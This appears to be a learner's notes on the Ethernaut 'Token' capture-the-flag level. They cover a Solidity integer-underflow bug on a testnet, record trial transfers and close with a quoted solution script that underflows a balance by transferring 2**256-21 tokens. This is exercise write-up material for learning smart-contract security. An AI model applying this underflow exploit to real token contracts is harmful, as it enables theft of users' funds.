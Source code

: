 5 - Token
=========

New Stuff
---------
* `require`

* The constructor caller gets all the tokens.
* At instance creation we get 20 tokens?
* Could I cause an integer overflow?

Yes!
[1](https://ethereum.stackexchange.com/a/7294)
Note: won't work for solidity v0.8.0+.

Even though the overflow could be possible, the -= then += would probably cancel it out?
`20 - 25 = -5 -> 2**256 - 5`
`2**256 - 5 + 25 = 20`

Possibly 'spoof' the `message.sender`?
[2](https://ethereum.stackexchange.com/a/68922)
-> Only for view functions

```
await contract.balanceOf(player)
await contract.transfer(player, 999999, {from: player})
await contract.transfer(player, 20, {from: player})
await contract.totalSupply()
```

Can I create a new account to transfer the overflowing funds to?

1. MetaMask: Create new account
2. [Faucet](https://rinkebyfaucet.com/)

```
player2='<Second Address>'
await contract.balanceOf(player2)
await contract.transfer(player2, 10, {from: player})
await contract.transfer(player2, 30, {from: player})
```

Couldn't get MetaMask to work with both accounts at the same time... ?

But still managed to do something strange with the 2 accounts?
* I did a few transfers of ~30 tokens in both directions?

> Not really sure what caused the overflow / 30 tokens to appear...

Overflowing WAS the solution!

[3](https://cmichel.io/ethernaut-solutions/)
```
const [eoa, accomplice] = await ethers.getSigners();
const eoaAddress = await eoa.getAddress();
// contract uses unsigned integer which is always >= 0, overflow check is useless
tx = await challenge.connect(accomplice)
    // we start with 20 tokens, make sure eoa's balance doesn't overflow as well
    .transfer(eoaAddress, BigNumber.from(`2`).pow(256).sub(`21`));
await tx.wait();
```
